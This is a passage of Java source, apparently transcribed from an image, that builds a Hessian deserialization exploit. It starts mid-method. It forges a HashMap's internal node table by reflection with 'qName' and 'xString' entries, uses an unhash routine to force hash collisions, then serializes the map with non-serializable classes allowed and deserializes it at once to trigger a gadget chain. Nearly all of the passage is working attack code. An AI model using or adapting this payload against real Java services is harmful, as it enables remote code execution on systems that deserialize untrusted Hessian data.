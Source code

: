 ```plain
        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, qName, qName, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, xString, xString, null));
        setFieldValue(hashMap, "table", tbl);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);




    }
    private static void unhash0(StringBuilder partial, int target) {
        int div = target / 31;
        int rem = target % 31;
        if (div <= 65535) {
            if (div != 0)
                partial.append((char)div);
            partial.append((char)rem);
        } else {
            unhash0(partial, div);
            partial.append((char)rem);
        }
    }
    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if (target < 0) {
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");
            if (target == Integer.MIN_VALUE)
                return answer.toString();
            target = target & Integer.MAX_VALUE;
        }
        unhash0(answer, target);
        return answer.toString();
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        SerializerFactory serializerFactory=new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializerFactory);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException, ClassNotFoundException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
    public static void setFieldValue(Object object, String field, Object value) throws NoSuchFieldException, IllegalAccessException {
        Field dfield=object.getClass().getDeclaredField(field);
        dfield.setAccessible(true);
        dfield.set(object,value);
```